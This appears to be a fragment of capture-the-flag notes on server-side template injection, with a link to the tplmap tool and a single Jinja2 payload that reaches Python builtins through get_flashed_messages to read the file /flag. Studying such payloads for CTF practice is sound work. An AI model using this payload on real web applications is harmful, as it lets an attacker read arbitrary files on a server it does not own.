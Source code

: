 https://github.com/epinna/tplmap

`{{ get_flashed_messages.__globals__.__builtins__.open("/flag").read()}}`
OR
![[Pasted image 20210611164307.png]]

